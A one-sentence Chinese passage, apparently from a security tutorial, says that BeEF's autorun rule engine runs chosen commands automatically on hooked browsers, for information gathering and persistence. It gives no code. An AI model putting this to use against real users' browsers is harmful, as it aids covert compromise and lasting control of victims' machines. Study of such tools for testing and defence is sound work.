BeEF ARE 允许我们在浏览器被 BeEF 钩取时选择特定的命令自动执行。这使我们能够收集信息并创建持久性，以及其他许多功能。
